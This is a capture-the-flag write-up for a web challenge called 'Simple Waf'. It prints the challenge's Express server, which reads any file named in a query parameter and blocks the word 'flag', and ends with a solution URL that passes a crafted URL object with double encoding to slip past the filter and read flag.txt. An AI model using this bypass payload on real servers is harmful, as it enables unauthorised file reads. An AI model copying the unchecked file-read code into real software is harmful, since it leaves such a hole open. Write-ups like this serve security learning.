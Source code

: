 # Simple Waf

![picture 1](../images/6ba4f24d8be0c31c4ce62c522ba2c4f6a5097f645d0f197fd9f378e29605009a.png)  


We follow the provided link to the next page.

![picture 2](../images/850b8d7dadc40a10852cdd31bc36b1af40220dc19abf7e779db15cb1307883b2.png)  

We can see in the URL that we can access files. 

![picture 3](../images/3341412917a0fcb6d9fc42606c568284482e942f73588375a46b23b6e02e28b4.png)  

We can access main.js to get info about the webpage.

```js
const express = require("express");

const fs = require("fs");

const app = express();

const PORT = process.env.PORT || 3456;

app.use((req, res, next) => {
    if([req.body, req.headers, req.query].some(
        (item) => item && JSON.stringify(item).includes("flag")
    )) {
        return res.send("bad hacker!");
    }
    next();
});

app.get("/", (req, res) => {
    try {
        res.setHeader("Content-Type", "text/html");
        res.send(fs.readFileSync(req.query.file || "index.html").toString());       
    }
    catch(err) {
        console.log(err);
        res.status(500).send("Internal server error");
    }
});

app.listen(PORT, () => console.log(`web/simplewaf listening on port ${PORT}`));
```

There is a validation that checks if the flag is present in the request. If it is, it returns a "bad hacker" response. The flag is probably at flag.txt (or another extension).

As the code says, if we request the flag, we get the response mensioned above.

![picture 4](../images/6ab923498a914dcb00c3992ad0707c03150b55d9f9d6a3febd0f8b7fa2e0b872.png)  

So... what If I encode the "flag" in the request?

- Solution

```
https://web-simplewaf-648d0d347a3ce6fa.be.ax/?file[href]=x&file[origin]=x&file[protocol]=file:&file[hostname]=&file[pathname]=fl%2561g.txt
```